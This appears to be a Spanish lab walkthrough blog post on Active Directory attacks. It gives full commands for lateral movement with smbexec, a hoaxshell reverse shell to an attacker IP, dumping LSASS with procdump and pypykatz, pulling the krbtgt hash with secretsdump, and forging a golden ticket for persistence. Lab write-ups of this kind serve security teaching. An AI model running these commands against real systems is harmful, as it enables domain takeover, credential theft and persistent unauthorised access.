 ```yaml
---
layout: single
title: Smb Relay - Parte 2
excerpt: "En esta segunda parte veremos como accder al PC02 utilizando proxychains y aprovechando el reenvío de credenciales, además de poder ver en texto claro las credenciales guardadas en el administrador de credenciales para conectarnos al controlador de dominio. Para finalizar conseguiremos persistencia en el DC1 generando un golden ticket para poder acceder sin necesidad de utilizar contraseña."
date: 2022-10-16
classes: wide
header:
  teaser: /assets/images/Smb-Relay/responder2.png
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```



## Acceso inicial

Ahora vamos a ganar acceso a la máquina PC02, de la siguiente forma. Ejecutamos proxychains smbexec.py -no-pass 'SIETEREINOS'/'JON'@'192.168.0.169' -debug -service-name test y directamente estamos dentro de la máquina PC02 con privilegios de system, los más elevados.

![](/assets/images/Smb-Relay/smbexec.png)

Pero esta consola es semi-interactiva, así que vamos a pasarnos a una consola totalmente interactiva de powershell con [hoaxshell](https://github.com/t3l3machus/hoaxshell) 

```bash
python3 hoaxshell.py -s 192.168.0.116 -H "Authorization"
```
Copiamos el comando que nos indica hoaxshell y lo ejecutamos en nuestra consola smbexec para obtener acceso con powershell.

![](/assets/images/Smb-Relay/hoaxshell.png)

![](/assets/images/Smb-Relay/cmd.png)

![](/assets/images/Smb-Relay/powershell.png)

## Acceso al controlador del dominio

El usuario de la máquina PC02 es un poco confiado y, además de guardar contraseñas en el navegador tiene la contraseña del administrador del dominio almacenada. Vamos a ver como podríamos verla.

![](/assets/images/Smb-Relay/creds.png)

Descargamos la herramienta [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) de la suite de sysinternals, del propio microsoft. Lo descomprimimos y vamos a tranferir a la máquina PC02 el archivo procdump64.exe, levantamos un servidor smb en nuestra máquina de atacante (smbserver.py -smb2support ximo .) y copiamos el archivo desde el PC02 (copy \\\192.168.0.116\ximo\procdump64.exe procdump64.exe).

```bash
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

![](/assets/images/Smb-Relay/procdump.png)

Nos tranferimos el archivo a nuestra máquina (copy lsass.dmp \\\192.168.0.116\ximo\lsass.dmp) y vamos a ver si con pypykatz podemos extraer esa contraseña.

```bash
pypykatz lsa minidump lsass.dmp
```
![](/assets/images/Smb-Relay/pypykatz.png)

Pypykatz nos muestra la contraseña en texto claro y tenemos la contraseña del administrador del dominio (!P@ssw0rd).

En este punto ya podemos conectarnos al servidor con evil-winrm.

![](/assets/images/Smb-Relay/evil.png)

## Persistencia con Golden Ticket

Vamos a generar un ticket de kerberos, firmado con el hash de la cuenta del usuario krbtgt, que es el encargado de firmar los tickets de kerberos, con lo cual el servidor pensará, cuando utilicemos el ticket, que ya hemos pasado la fase de validación de la contraseña y nos dará acceso aunque no usemos ninguna contraseña. Podremos acceder al servidor siempre que queramos aunque nos cambien la contraseña del administrador.

Lo primero que necesitaremos es el hash de la contraseña del usuario krbtgt. Lo podemos averiguar con secretsdump.

```bash
secretsdump.py Administrador:'!P@ssw0rd'@192.168.0.100 | grep krbtgt | grep :::
```

Lo siguiente que necesitamos es el SID del dominio. Esto lo sacamos con lokkupsid.

```bash
lookupsid.py sietereinos.local/Administrador:'!P@ssw0rd'@192.168.0.100
```
![](/assets/images/Smb-Relay/sid.png)

Ahora con la herramienta ticketer crearemos el ticket.

```bash
ticketer.py -nthash 96fe190f31307691486d57de87e59f56 -domain-sid S-1-5-21-4181028088-1212197574-1834492528 -domain sietereinos.local Administrador
```

Solo nos falta exportar una variable de entorno para poder conectarnos al servidor.

```bash
export KRB5CCNAME=/workspace/Administrador.ccache
```

Ya nos podemos conectar siempre que queramos sin utilizar contraseña con wmiexec, con el parámetro -k para utilizar kerberos con el ticket exportado en la variable de entorno y con -no-pass para indicarle que no utilice contraseña.

```bash
wmiexec.py -k -no-pass sietereinos.local/Administrador@dc1.sietereinos.local
```
![](/assets/images/Smb-Relay/ticket.png)

